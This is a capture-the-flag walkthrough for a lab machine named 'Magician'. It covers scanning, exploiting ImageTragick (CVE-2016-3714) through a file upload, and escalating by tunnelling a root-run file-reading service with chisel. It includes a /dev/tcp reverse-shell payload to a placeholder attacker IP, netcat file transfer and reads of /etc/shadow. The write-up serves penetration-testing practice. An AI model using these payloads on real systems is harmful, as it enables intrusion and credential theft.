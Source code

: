 
# Magician

First things first: Edit the hosts file as you were asked in the beginning.

```bash
$ sudo nano /etc/hosts

# Add the following line:
10.10.215.1    magician
```

We'll proceed with our usual nmap scan:

```bash
$ sudo nmap magician -Pn -p- -A -vv -T4 --script discovery,vuln -oN nmap-scan --min-parallelism 55
```

Select running services with

```bash
$ cat nmap-scan | grep -e '[0-9]\+/tcp[[:space:]].*' -o
```

[x] 21/tcp   open  ftp        syn-ack ttl 63 vsftpd 2.0.8 or later

[x] 8080/tcp open  http-proxy syn-ack ttl 63

[x] 8081/tcp open  http       syn-ack ttl 63 nginx 1.14.0 (Ubuntu)

Also, nmap says that that there's ***/files*** directory at http://magician:8080.

And after visiting http://magician:8081 we find out, that we can upload files there.

We'll first try anonymous ftp login. Aaaaand success! After some time, we are
presented with a hint and "Login successful" status:

```
230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
230 Login successful.
```

All right! after visiting the link, we know that the server is vulnerable to 
CVE-2016-3714. I found a good exploit at [Hood3dRob1n's Github](https://github.com/Hood3dRob1n/CVE-2016-3714)

Download the exploit:

```bash
$ git clone https://github.com/Hood3dRob1n/CVE-2016-3714.git

$ cd CVE-2016-3714

$ python2 imagick_builder.py
```

And select cmd payload with reverse shell:

```
Imagick Payload Builder Options:
      cmd => Build Payload to Execute OS Command
     read => Build Payload to Read File
     move => Build Payload to Move a File
   delete => Build Payload to Delete a File
     ssrf => Build Payload for SSRF Request
     help => Help Menu
     exit => Exit Shell

   Enter Selection: cmd

   Enter Command to Embed in Payload: 0<&196;exec 196<>/dev/tcp/$ATTCKER_IP_GOES_HERE/8080; sh <&196 >&196 2>&196

[*] Payload can be renamed as needed to bypass filetype restrictions...
   [*] Payload 1 Saved To: ~/CTF/Magician/CVE-2016-3714/output/mvg_rce.mvg
   [*] Payload 2 Saved To: ~/CTF/Magician/CVE-2016-3714/output/svg_rce.svg


Imagick Payload Builder Options:
      cmd => Build Payload to Execute OS Command
     read => Build Payload to Read File
     move => Build Payload to Move a File
   delete => Build Payload to Delete a File
     ssrf => Build Payload for SSRF Request
     help => Help Menu
     exit => Exit Shell

   Enter Selection: exit

[*] Good Bye!
```

Now, setup the netcat listener and upload the ***mvg_rce.mvg*** file. Enjoy your reverse 
shell! You can upgrade it like this:

```bash
$ python -c "import pty; pty.spawn('/bin/bash')"
```

The user.txt file is at /home/magician.

---

## *Getting the root flag*

After trying some sommon privesc techniques (and finding them useless), I downloaded 
LinEnum.sh script to the victim machine and found a suspicious service at port 6666.

We'll forward it to our machine. First, navigate to [chisel releases](https://github.com/jpillora/chisel/releases/tag/v1.7.7)
and download the binary file. Unpack it and transfer to the victim machine.

```bash
$ gzip -d chisel_1.7.7_linux_amd64.gz
```

Next, transfer it:

- Victim machine:

```bash
$ nc -lvnp 8000 > chisel_1.7.7_linux_amd64
```

- Attacker machine:

```bash
$ nc magician 8000 < chisel_1.7.7_linux_amd64
```

After transfer is complete, kill netcat in the ***ATTCKER*** machine.

Next, on your ***attacker machine*** set up chisel server (I cloned it from Github,
so I run it with "go run"):

```bash
$ go run main.go server -p 3000 --reverse
```

After this, on the ***victim machine***, connect to server and forvard traffic from 6666 
port tp 8008 port of your machine

```bash
$ ./chisel_1.7.7_linux_amd64 client $ATTACKER_IP_GOES_HERE:3000 R:8008:127.0.0.1:6666
```

Navigate to http://127.0.0.1:8008/ iin your browser. You'll see a page that allows you
to read files by their names:

![service-6666](https://i.postimg.cc/yx4kpw1j/service-6666.png)

After trying to read ***/etc/shadow*** I realized that service is running as root. Hence,
we can input ***/root/root.txt***.
Then I got the flag, but it was 13 times rotated. Use [CyberChef](https://cyberchef.org/)
to get plaintext flag

